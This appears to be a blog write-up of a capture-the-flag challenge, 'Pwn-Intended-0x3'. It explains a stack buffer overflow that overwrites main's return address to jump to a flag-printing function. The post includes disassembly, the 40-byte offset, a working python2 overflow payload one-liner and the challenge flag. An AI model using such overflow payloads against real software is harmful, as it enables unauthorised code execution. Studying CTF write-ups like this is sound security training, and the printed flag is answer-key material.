```yaml
---
layout: post
title: "Pwn-Intended-0x3"
author: "AnandSaminathan"
tags: ['Pwn']
---
```


**Files**
- [pwn-intended-0x3]({{site.baseurl}}/assets/Pwn-Intended-0x3/pwn-intended-0x3)

## Solution

This is exactly same as [coffer-overflow-2](https://dunsp4rce.github.io/redpwn-2020/pwn/2020/06/26/coffer-overflow-2.html) from redpwn-2020. 
In this case the return address of main has to be replaced with the address of a function called `flag` (which prints the flag).

Disassembly of `flag` with the starting address:
```
   0x00000000004011ce: push   rbp
   	                   mov    rbp,rsp
   	                   lea    rdi,[rip+0xe5f]        
                       call   0x401030 <puts@plt>
   	                   lea    rdi,[rip+0xe7b]        
   	                   call   0x401050 <system@plt> # system("cat flag.txt")
   	                   mov    edi,0x0
   	                   call   0x401070 <exit@plt>
```

Using gdb, the distance between the starting address of the buffer and the return address of main in the stack was found to be 40 bytes (rbp + 8 bytes), so we can have some padding of 40 bytes and then have the address of `flag` function in little endian. This worked:

```shell
python2 -c "print 'A'*40 + '\xce\x11\x40\x00\x00\x00\x00\x00'" | ./pwn-intended-0x3
```

## Flag

```
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
```




